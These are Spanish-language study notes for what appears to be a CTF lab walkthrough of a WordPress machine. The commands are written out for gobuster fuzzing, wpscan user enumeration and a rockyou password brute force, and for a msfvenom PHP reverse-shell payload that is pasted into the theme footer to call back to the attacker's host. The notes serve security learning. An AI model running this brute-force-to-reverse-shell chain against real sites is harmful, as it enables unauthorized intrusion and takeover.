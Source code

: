 Entornos wordpress --> Diferentes configuraciones que puede tener para desarrollar, probar y poner en funcionamiento tu sitio web.


- Tenemos una maquina con el puerto 80 abierto, vamos a usar fuzzing utilizando la herramienta ==gobuster==

![](../Imagenes/Pasted%20image%2020250107201932.png)

- Tenemos wordpress, vamos a investigar

![](../Imagenes/Pasted%20image%2020250107202029.png)

- Vemos que lo carga incompleto.
	- Esto pasa porque hace falta que la IP de la maquina victima este apuntando al dominio de wordpress. Hay que editar el fichero /etc/hosts.
	- Pero que dominio vamos a utilizar?
![[Pasted image 20250107202212.png]]
- Se repite mucho el directorio internal.thm, vamos a ingresarlo.

![](../Imagenes/Pasted%20image%2020250107202431.png)


![](../Imagenes/Pasted%20image%2020250107202452.png)

- Ya estamos dentro de la pagina.
- Cuando estamos en wordpress, podemos poder hacer un fuzzing a la pagina para encontrar un login web.

![](../Imagenes/Pasted%20image%2020250107203016.png)

- Podemos entrar al login web.

![](../Imagenes/Pasted%20image%2020250107203106.png)

- Aquí debemos usar ==wpscan==
- WPSCAN --> Escanear y auditar la seguridad de sitios web basados en Wordpress.
- Usamos el siguiente comando:
```
wpscan --url (IP_VICTIMA_DIRECTORIO) --enumerate u,vp
```

![](../Imagenes/Pasted%20image%2020250107205024.png)

- Nos dio un usuario, por lo tanto podemos hacer fuerza bruta con ==wpscan==.
```
wpscan --url (IP_VICTIMA_DDIRECTORIO) --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```
- Ya tenemos contraseña:

![](../Imagenes/Pasted%20image%2020250107210613.png)

- Ahora nuestro objetivo es inyectar un código malicioso en .php
- En este caso no podemos subir archivos, pero si podemos editar.

![](../Imagenes/Pasted%20image%2020250107210731.png)

- Nos vamos a Appearance > Theme Editor y nos saldra un word edition.

![](../Imagenes/Pasted%20image%2020250107210845.png)

- En este word edition vamos a agregar un código malicioso.
- Pero antes, a la derecha sale un listado de files, vamos a seleccionar ==Theme Footer==

![](../Imagenes/Pasted%20image%2020250107211018.png)

- Eliminamos todo el código que ahí aparece.
	- Tenemos que poner el payload en msfvenom.
- Para este payload lo vamos a crear en msfvenom con el siguiente comando:
```
msfvenom -p php/reverse_php LHOST=(IP_MAQUINA_ATACANTE) LPORT=(PUERTO) -f raw > pwned.php
```

![](../Imagenes/Pasted%20image%2020250107211413.png)

- Hacemos un cat en el payload y eso lo ponemos en la pagina.

![](../Imagenes/Pasted%20image%2020250107211623.png)

- le damos a update file, tenemos a nuestra maquina a escucha y volvemos a la pagina IP/blog, ya tenemos conexión.